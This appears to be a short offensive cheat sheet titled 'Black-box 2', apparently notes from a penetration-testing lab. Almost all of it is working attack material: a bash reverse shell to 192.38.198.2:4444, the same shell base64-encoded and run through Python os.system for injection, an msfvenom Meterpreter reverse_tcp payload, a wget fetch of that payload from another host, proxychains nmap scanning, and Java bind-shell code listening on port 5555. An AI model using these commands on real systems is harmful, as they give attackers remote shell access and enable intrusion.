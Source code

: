 # Black-box 2

Tips:
Reverse shell:
- echo 'bash -c "bash -i >& /dev/tcp/192.38.198.2/4444 0>&1"' | base64

Encoding with python flask:
- __import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzguMTk4LjIvNDQ0NCAwPiYxIgo= | base64 -d | bash")

Setup a linux meterpreter shell:
- msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.38.198.2 LPORT=5555 -f elf > payload.bin

Python3 webserver:
- python3 -m http.server 80

Download from server:
- wget http://192.196.85.2/payload.bin

Proxychain:
Port 9050
proxychains nmap -sT -P0 192.108.156.3

Gorvbind shell:
int port=5555;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();